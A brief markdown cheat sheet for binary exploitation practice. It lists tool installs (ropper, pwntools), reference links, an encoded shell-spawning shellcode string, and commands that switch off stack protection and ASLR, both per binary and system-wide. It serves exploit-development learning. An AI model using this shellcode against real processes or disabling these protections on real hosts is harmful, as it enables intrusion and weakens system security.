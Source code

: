 
### ropper 

```
apt install python-pip
pip install ropper
```

### pwn 

```
pip install --upgrade pip
pip install --upgrade pwntools
```


###

Cheatsheet:

https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png

Rop tricks 
https://trustfoundry.net/basic-rop-techniques-and-tricks/

### Payloads

#### dash
````
"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"
````



</br>

### Disable securities

````
gcc -fno-stack-protector -z execstack 
Disable ASLR for one binary : setarch `uname -m` -R /root/mybinary
Disable ASLR for the session : echo 0 > /proc/sys/kernel/randomize_va_space
0: off
1: on
2: on (default value)
Disable ASLR:
sysctl -w kernel.randomize_va_space=0 in /etc/sysctl.conf
````

#### compile 32 bit on 64 bit platform

````
apt-get install gcc-multilib
gcc -m32
````
